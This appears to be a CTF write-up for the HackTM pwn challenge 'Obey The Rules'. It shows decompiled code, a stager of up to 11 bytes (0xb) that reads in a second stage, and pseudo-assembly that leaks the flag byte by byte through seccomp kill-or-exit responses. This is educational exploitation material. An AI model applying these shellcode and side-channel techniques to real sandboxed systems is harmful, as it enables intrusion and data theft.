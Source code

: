# **Obey The Rules**

#### tag : pwn(445p)

-----------------------------------------------

#### Description

>The government has released a new set of rules. Do you choose to be among those who follow them blindly or among those who read them first?

>Flag Path: /home/pwn/flag.txt

>Author: FeDEX

>Remote: nc 138.68.67.161 20001

-----------------------------------------------

#### Solution

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int16 v4; // [rsp+10h] [rbp-80h]
  void *v5; // [rsp+18h] [rbp-78h]
  char s; // [rsp+20h] [rbp-70h]
  unsigned __int64 v7; // [rsp+88h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  init_proc(*(_QWORD *)&argc, argv, envp);
  memset(&s, 0, 0x64uLL);
  open_read_file("header.txt", 100LL, &s);
  puts(&s);
  open_read_file("description.txt", 800LL, &description);
  printf("\n    %s\n  ", &description);
  puts(" >> Do you Obey? (yes / no)");
  read(0, &answer, 0xBuLL);
  v4 = (signed int)open_read_file("RULES.txt", 150LL, &rules) >> 3;
  v5 = &rules;
  if ( prctl(38, 1LL, 0LL, 0LL, 0LL) < 0 )
  {
    perror("prctl(PR_SET_NO_NEW_PRIVS)");
    exit(2);
  }
  if ( prctl(22, 2LL, &v4) < 0 )
  {
    perror("prctl(PR_SET_SECCOMP)");
    exit(2);
  }
  if ( !strcmp(&answer, "Y") )
    set_context(&answer, "Y");
  else
    system("/bin/sh");
  return 0;
}
```
Challenge make seccomp rule from `RULES.txt` in server, so that we can't check seccomp rule by `seccomp-tools`.

```c
  v4 = (signed int)open_read_file("RULES.txt", 150LL, &rules) >> 3;
  v5 = &rules;
  if ( prctl(38, 1LL, 0LL, 0LL, 0LL) < 0 )
  {
    perror("prctl(PR_SET_NO_NEW_PRIVS)");
    exit(2);
  }
  if ( prctl(22, 2LL, &v4) < 0 )
  {
    perror("prctl(PR_SET_SECCOMP)");
    exit(2);
  }
```

After seccomp rule released, we can execute 0xb byte shellcode in `set_context()` if 2 byte of shellcode is 'Y\x00'. Otherwise we can call system("/bin/sh"), but this is banned by seccomp rule. It return bad system call. So we use `set_context()`.

```c
  ...
  read(0, &answer, 0xBuLL);
  ...
  seccomp routine here
  ...
  if ( !strcmp(&answer, "Y") )
    set_context();
  else
    system("/bin/sh");
  ...

__int64 set_context()
{
  *(&answer + strlen(&answer)) = 89;
  strcpy(region, &answer);
  return ((__int64 (__fastcall *)(signed __int64, char *))region)(1337LL, &answer);
}
```

First of all, I checked seccomp rule in server. I made shellcode that call each syscall and got server's response. `ALLOW` syscall return `Segfault` but `KILL` syscall return `Bad system call`. Here is my check code [check.py](./solve.py.bak).

```
mov al, n (n=0~0xff)
syscall
```

This is result of `check.py`. There are only 3 syscall available. We have to solve this challenge using `read`, `open`, `exit`.

```
0 ok
1 bad
2 ok
...
60 ok
...
```

There is no way to print data from server, So we have to use `error-based shellcode` which that use reaction of server. In the case, we can use server's seccomp reaction. If we call bad syscall, server return `Bad system call`, but using `exit` which is allowed, server return normally.

So, we open flag.txt and compare byte one by one. And if it's correct ascii byte, jmp to exit syscall or not jmp to bad syscall. So that we can know flag's byte.

Here is pseudocode. It's form that we have to make in shellcode.

```
fd = open("/home/pwn/flag.txt");
read(fd, buf, 0x100);
for(int i=0; i<0x100; i++) {
  for(int j=0; j<0xff; j++) {
    if(buf[i] == j) {
      exit(0);
    }
    else {
      syscall(); // whatever except for read, open, exit
    }
  }
}

```

Before that, we have to read more byte. 0xb byte is not enough to work like upper pseudocode. So, we use this 0xb shellcode to read more byte.

Fortunately, at the point of execution of shellcode, value of rsp contain &shellcode which is mapped as `region` and rdx is big trash value. So just set rdi to 0(stdin) and pop `region`'s address to rsi, then call read.

```
pop rcx ; Y(prefix)
pop rcx ; Y(prefix)
xor di, di
pop rsi
xor eax, eax
syscall
```

Great, We can call read(0, region[&shellcode], n). Putting second shellcode with 0x10 byte dummy, we can run new shellcode continuosly. 

After reading new shellcode, mabye find something weird(bad syscall retunred from read(3,buf,n)) when read flag after open. Yes, server's seccomp rule have open's A0 comparing.

So we can guess server's seccomp rule like:

```
scmp_filter_ctx ctx;
ctx = seccomp_init(SCMP_ACT_KILL);

seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 1, SCMP_CMP_NE(3));
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);

seccomp_load(ctx);
seccomp_release(ctx);
```

Well, just open flag.txt one more time, then 4 is allcated as fd. Here is psuedo shellcode that comparing flag one by one.

```
open('/home/pwn/flag.txt')
open('/home/pwn/flag.txt')
read(4, 'rsp', 0x100)
mov rax, [rsp+i]          ; i is index of flag
cmp al, j                 ; j is byte of flag
je good
xor eax, eax
mov al, 59 
syscall                   ; call execve(bad syscall)
good:
xor eax, eax
mov al, 60
syscall                   ; call exit
```

Here is my last exploit code, [solve.py](./solve.py).

**HackTM{kn0w_th3_rul3s_we11_s0_y0u_c4n_br34k_th3m_EFFECTIVELEY}**